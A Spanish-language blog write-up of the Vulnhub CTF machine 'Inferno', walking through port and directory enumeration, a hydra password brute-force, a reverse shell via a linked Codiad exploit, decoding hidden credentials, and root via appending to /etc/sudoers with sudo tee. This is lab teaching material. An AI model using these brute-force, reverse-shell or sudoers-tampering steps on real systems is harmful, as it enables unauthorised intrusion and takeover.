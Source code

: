 ```yaml
---
layout: post
title: Inferno - Vulnhub
tags: [ctf, vulnhub]
---
```


**Autor**: Mindsflee \\
**Dificultad**: Fácil

![img](/imgs/write-ups/vulnhub/inferno/inferno.png#center)

## Enumeración

Como siempre, lo primero es una enumeración con nmap. En esta máquina hay muchos puertos abiertos pero solo 2 (22 y 80) tiene servicios ejecutandose detrás .

```
$ sudo nmap 192.168.1.24
Nmap scan report for 192.168.1.24
Host is up (0.00082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
[...]
22/tcp open  ssh
[...]
80/tcp open  http
[...]
MAC Address: 08:00:27:04:0F:28 (Oracle VirtualBox virtual NIC)
```

Tras idenfiticar los servicios activos, procedo con una enumeración de subdirectorios usando gobuster.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.1.24" -x php,txt,html,log,jpg,png
===============================================================
2022/12/29 12:59:30 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 638]
/1.jpg                (Status: 200) [Size: 680065]
/inferno              (Status: 401) [Size: 459]
```

Encuentro el directorio "/inferno", pero al intentar acceder es necesario iniciar sesión. En este caso utilizo hydra para conseguir unas credenciales válidas.

```
$ hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -u -f 192.168.1.24 -s 80 http-get /inferno
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-29 13:01:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://192.168.1.24:80/inferno
[STATUS] 7011.00 tries/min, 7011 tries in 00:01h, 14337387 to do in 34:05h, 16 active
[80][http-get] host: 192.168.1.24   login: admin   password: dante1
[STATUS] attack finished for 192.168.1.24 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Tras iniciar sesión me encuentro con otra página de login, pero ahora es de "codiad".

![login codiad](/imgs/write-ups/vulnhub/inferno/inferno_1.png#center)

Para continuar uso las mismas credenciales que en el anterior login.

## Explotación

Para conseguir una shell en el servidor, utilizo la siguiente vulnerabilidad descrita en [Exploit DB](https://www.exploit-db.com/exploits/50474), que nos permite subir una reverse shell.

Una vez subida, solo hay que cargar el archivo y obtengo la conexión.

```
$ nc -lvnp 1234
Connection from 192.168.1.24:33764
Linux Inferno 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux
 08:06:47 up 18 min,  0 users,  load average: 0.02, 0.37, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ :)
```

De esta forma ya estoy dentro, ahora solo queda escalar privilegios.

## Escalado de privilegios

Tras enumerar la máquina, encuentro el siguiente archivo en la carpeta "Downloads" de Dante.

```
www-data@Inferno:/home/dante/Downloads$ cat .download.dat
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33
```

Utilizo [Cyberchef](https://cyberchef.org/) para decodificarlo y encuentro tanto usuario como contraseña.

```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

Tras conectarme mediante ssh, compruebo los permisos de Dante y veo que puede ejecutar "tee" como el usuario root.

```
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

Conociendo esto, añado al usuario Dante al fichero "/etc/sudoers" con todos los privilegios, pudiendo así iniciar sesión como root.

```
dante@Inferno:~$ echo "dante ALL=(ALL:ALL) ALL" | sudo tee -a /etc/sudoers
dante ALL=(ALL:ALL) ALL
dante@Inferno:~$ sudo su
[sudo] password for dante: 
root@Inferno:/home/dante# :)
root@Inferno:/home/dante# cat /root/proof.txt


 (        )  (          (        )     )   
 )\ )  ( /(  )\ )       )\ )  ( /(  ( /(   
(()/(  )\())(()/(  (   (()/(  )\()) )\())  
 /(_))((_)\  /(_)) )\   /(_))((_)\ ((_)\   
(_))   _((_)(_))_|((_) (_))   _((_)  ((_)  
|_ _| | \| || |_  | __|| _ \ | \| | / _ \  
 | |  | .` || __| | _| |   / | .` || (_) | 
|___| |_|\_||_|   |___||_|_\ |_|\_| \___/ 


Congrats!

You've rooted Inferno!

77f6[...]

mindsflee

https://www.buymeacoffe.com/mindsflee
```

Muchas gracias  **Mindsflee** por esta máquina.
